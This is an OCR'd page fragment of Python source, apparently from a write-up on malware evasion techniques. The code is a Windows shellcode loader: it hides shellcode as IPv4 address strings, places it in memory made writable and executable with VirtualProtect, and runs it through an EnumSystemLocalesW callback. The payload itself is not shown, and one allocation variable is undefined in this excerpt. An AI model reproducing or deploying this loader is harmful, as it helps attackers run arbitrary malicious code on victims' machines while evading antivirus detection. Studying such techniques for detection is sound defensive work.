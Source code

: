 ```python

for i in range(len(shellcode) // 4):
    bytes_shellcode = shellcode[i * 4: 4 + i * 4]
    ctypes.windll.Ntdll.RtlIpv4AddressToStringA(bytes_shellcode, ptr_realloc_1 + i * 16)

ipv4_list = []
for i in range(len(shellcode) // 4):
    ipv4 = ctypes.string_at(ptr_realloc_1 + i * 16, 16)
    ipv4_list.append(ipv4)
print(ipv4_list)

ptr_alloc_2 = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode)))
ptr_realloc_2 = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc_1, len(shellcode), len(shellcode))
ctypes.windll.kernel32.VirtualProtect(ptr_realloc_2, ctypes.c_int(len(shellcode)), 0x40, ctypes.byref(ctypes.c_long(1)))

rwxpage = ptr_realloc_2
for i in range(len(ipv4_list)):
    ctypes.windll.Ntdll.RtlIpv4StringToAddressA(ipv4_list[i], False, ipv4_list[i], rwxpage)
    rwxpage += 4

ctypes.windll.kernel32.EnumSystemLocalesW(ptr_realloc_2, 0)
```

![](img/11.png)
